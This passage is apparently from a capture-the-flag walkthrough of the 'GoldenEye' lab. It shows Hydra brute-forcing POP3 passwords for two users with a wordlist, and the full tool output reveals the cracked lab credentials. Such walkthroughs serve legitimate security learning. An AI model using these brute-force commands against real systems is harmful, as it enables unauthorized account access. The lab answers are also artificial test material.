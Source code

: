 unfortunately the creds we obtained earlier, are not valid.

### 2.2 - If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra? Whats their new password?

Let's try to brute-force the password. I used `hydra` and `fasttrack` wordlist for user `boris` on pop3:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/GoldenEye]
└─$ hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://$IP:55007/ 
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-31 10:10:17
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.102.223:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.102.223   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-31 10:12:58

~~~

Boris's pop3 password: `secret1!`

I don't know if we need or not, but I successfully brute-forced `natalya`'s password, the other user that we know:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/GoldenEye]
└─$ hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://$IP:55007/
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-31 10:13:09
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.102.223:55007/
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 158 to do in 00:03h, 16 active
[55007][pop3] host: 10.10.102.223   login: natalya   password: bird
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-31 10:15:43
~~~

The password for user `natalya` is `bird` if we need it.

### 2.3 - Inspect port 55007, what services is configured to use this port?
